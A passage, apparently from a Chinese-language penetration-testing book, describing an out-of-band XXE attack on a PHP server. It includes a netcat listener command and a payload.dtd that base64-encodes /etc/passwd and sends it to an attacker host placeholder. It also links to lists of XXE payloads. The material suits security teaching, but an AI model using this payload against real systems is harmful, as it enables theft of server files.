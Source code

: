 * 你刚刚创建的 DTD 文件指示易受攻击的服务器读取 `/etc/ passwd` 然后尝试使用我们的敏感数据向我们的攻击者机器发出 Web 请求。为了确保我们收到响应，我们需要启动 Web 服务器来托管 DTD 文件并设置 NetCat 监听器
    * nc -l -p 8888

* 你将遇到“检测到实体引用循环”类型的错误,具体的报错内容大概是：“Detected an entity reference loop in
\<b>/var/www/html/xxe.php</b> on line \<b>20"。在进行 XXE 攻击时，通常会遇到解析器错误。很多时候，XXE 解析器仅仅允许某些字符，因此读取带有特殊字符的文件会报错。我们可以做些什么来解决这个问题？在使用 PHP 的情况下，我们可以使用 PHP 输入和输出流（ http://php.net/manual/en/wrappers.php.php ）来读取本地文件，并使用 `php://filter/read=convert.base64-encode` 对它们进行 base64 编码。让我们重启我们的 NetCat 监听器并更改我们的 payload.dtd 文件以使用此功能：

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://[Your_IP]:8888/collect=%file;'>">
%all;
```

![](../images/chapter_3/3-45.png)

一旦我们重放我们新修改的请求，我们现在就可以看到我们的受害者服务器首先获取并运行了 payload.dtd 文件，然后监听8888端口的 NetCat 处理程序发出二次 Web 请求。当然，GET 请求将采用 base64编码并且我们也将必须对请求进行解码。

更多 XXE payload：
* https://gist.github.com/staaldraad/01415b990939494879b4 
* https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XXE-Fuzzing.txt
 
## 本章总结
虽然这只是你可能遇到的所有不同网络攻击的一小部分，但我希望这些案例能打开你的视野，关于更现代的框架（Node.js）是如何引入旧的和新的攻击。许多常见的应用程序漏洞扫描器往往会错过很多这些更复杂的漏洞，因为它们是基于特定的语言或框架的。我想提出的要点是，为了进行充分的攻击活动，你需要真正理解语言和框架。
